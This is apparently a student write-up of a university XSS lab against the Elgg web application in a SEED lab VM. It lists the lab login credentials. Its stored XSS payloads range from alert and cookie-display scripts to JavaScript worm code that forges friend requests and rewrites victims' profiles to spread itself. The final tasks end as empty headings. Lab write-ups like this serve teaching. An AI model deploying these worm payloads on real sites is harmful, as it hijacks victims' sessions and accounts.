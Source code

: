 # CSUS CSC154: XSS Lab  

## Goal  
To fully demonstrate what attackers can do by exploiting XSS vulnerabilities.


## Lab Environment  
In this lab, we need three things, which are already installed in the provided `SEEDUbuntu12.04` VM image: (1) the Firefox web browser, (2) the Apache web server, and (3) the Elgg web application. For the browser, we need to use the LiveHTTPHeaders extension for Firefox to inspect the HTTP requests and responses. The pre-built Ubuntu VM image provided to you has already installed the Firefox web browser with the required extensions.  

The user accounts for Elgg are found below.  

| User          | UserName      | Password     |
| ------------- |:-------------:| ------------:|
| Admin         | admin         | seedelgg     |
| Alice         | alice         | seedalice    |
| Boby          | boby          | seedboby     |
| Charlie       | charlie       | seedcharlie  |
| Samy          | samy          | seedsamy     |



## Lab Tasks  

### Posting a Malicious Message to Display an Alert Window  
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another
user views our profile, the JavaScript program will be executed and an alert window will be displayed. The
following JavaScript program will display an alert window:  

```javascript
<script>alert('xss');</script>
```

To accomplish this, we simply login as Samy, and navigate to edit our profile. As can be seen in Figure 1 below, we've placed our JavaScript payload in the "Brief Descriptoin" portion of Samy's profile.  
![1_1_samy](./writeup/images/1_1_samy.png)  
**Figure 1:** JavaScript alert window payload to demonstrate XSS.  

![1_2_samy](./writeup/images/1_2_samy.png)  
**Figure 2:** JavaScript alert window fires when Samy's profile is visited.  


### Posting a Malicious Message to Display Cookies
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another user views our profile, the user's cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task, more specifically `document.cookie` as such: 
```javascript
<script>alert(document.cookie);</script>
```

To accomplish this, we repeat the previous task, but replace the `'xss'` string, with `document.cookie`.  
![2_1_samy](./writeup/images/2_1_samy.png)  
**Figure 3:** JavaScript alert window payload to display user's cookie for the site.  

![2_2_samy](./writeup/images/2_2_samy.png)  
**Figure 4:** JavaScript alert window displays our Elgg cookie when visiting Samy's profile.




### Writing an XSS Worm  
In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). First, we will write an XSS worm that does not self-propagate; in the next task, we will make it self-propagating. In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim's browser, without the intervention of the attacker. The objective of the attack is to modify the victim's profile and add Samy as a friend to the victim. 

We can view the requests made to the server when adding a friend, by using the Live HTTP Headers plugin. In Figure 5 below, we're viewing the request made when Boby adds Alice as a friend.  
![add_friend_http_request](./writeup/images/add_friend_http_request.png)  
**Figure 5:** HTTP Headers for friend request, Boby to Alice.  


We can also see by hovering over the link to to add Samy as a friend, the url is `http://www.xsslabelgg.com/action/friends/add?friend=42&__elgg_ts=1575329197&__elgg_token=ac28852afbfcd82a9fd72aa9923110f3`.

Using this information we can construct an AJAX request to add Samy as a friend as soon as you visit his profile. To create our worm this we've developed the following JavaScript code, which we embed in the About Me section of Samy's profile.

```javascript
<script>

var Ajax=null;
var ts = elgg.security.token.__elgg_ts;
var token = elgg.security.token.__elgg_token;

// 42 is Samy's GUID
var content = "friend=42&__elgg_ts="+ts+"&__elgg_token="+token;

Ajax=new XMLHttpRequest();
Ajax.open("GET","http://www.xsslabelgg.com/action/friends/add?"+content,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send(null);

</script>
```

![developing_worm](./writeup/images/developing_worm.png)  
**Figure 6:** Developing worm payload in FireBug.  

![samy_worm_embed](./writeup/images/samy_worm_embed.png)  
**Figure 7:** JavaScript payload to add Samy as a friend when is profile is visited (Worm). 

Now after we visit Samy's profile as Alice, we see that Alice has added him as a friend.  

![alice_samy](./writeup/images/alice_samy.png)  
**Figure 8:** Alice added Samy as friend by visiting his page with XSS payload.  


### Writing a Self-Propagating XSS Worm  
In order to construct a self propogating worm, we need the JavaScript exploit we developed above to another user's profile. When a user visits Samy's page, we'll edit their profile with the following snippet below. This will make an AJAX POST request to place our malicious JavaScript inside their About Me section. 

```html
<div id='i_love_sammy'>

</div>
```


```javascript
<script>
var Ajax=null;
var guid = elgg.session.user['guid'];
var name = elgg.session.user['name'];
var ts = elgg.security.token.__elgg_ts;
var token = elgg.security.token.__elgg_token;

Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

// Get previous payload code from element id
var getInf3c73d = document.getElementById('i_love_sammy').innerHTML;
 

var content="__elgg_ts="+ts+"&__elgg_token="+token+"&description="+getInf3c73d+"&name="+name+"&accesslevel[description=2&guid="+guid;

Ajax.send(content);
</script>
```



### Task 6: Writing a Self-Propagating XSS Worm  

### Task 7: Countermeasures  
